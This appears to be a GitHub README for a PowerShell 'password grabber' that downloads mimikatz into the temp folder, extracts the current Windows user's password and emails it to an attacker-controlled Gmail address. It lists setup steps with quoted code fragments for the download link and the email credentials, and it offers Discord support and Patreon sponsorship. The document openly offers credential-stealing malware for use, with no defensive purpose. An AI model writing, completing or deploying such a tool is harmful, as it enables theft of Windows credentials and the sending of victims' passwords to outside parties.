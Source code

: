 
# Simple_user_Password_Grabber
Grabs the current Windows User password.

## How to use?

This script is not plug and play and only for experienced users. You will need to do the following changes:

- change link to mimikatz.exe "('LINK TO MIMIKATZ.EXE DOWNLOAD HERE','%temp%\pw.exe')"
- change email credential 1 "('THE-PART-OF-YOUR-EMAIL-BEFORE-THE-@"
- change email credential 2 "gmail.com', 'PASSWORDHERE');"
- change email credential 3 "$ReportEmail.From = 'THE-PART-OF-YOUR-EMAIL-BEFORE-THE-@"
- change email credential 4 "$ReportEmail.To.Add('THE-PART-OF-RECEIVERS-EMAIL-BEFORE-THE-@"


## Features

- open powershell
- download mimikatz
- get user password
- send password to email

## Feedback

If you have any feedback, please reach out to me via Discord "UNC0V3R3D#8662".






## Support

For support, contact me via  Discord "UNC0V3R3D#8662".


## Meta


- If you want to sponsor me on Patreon, the link is on my profile.


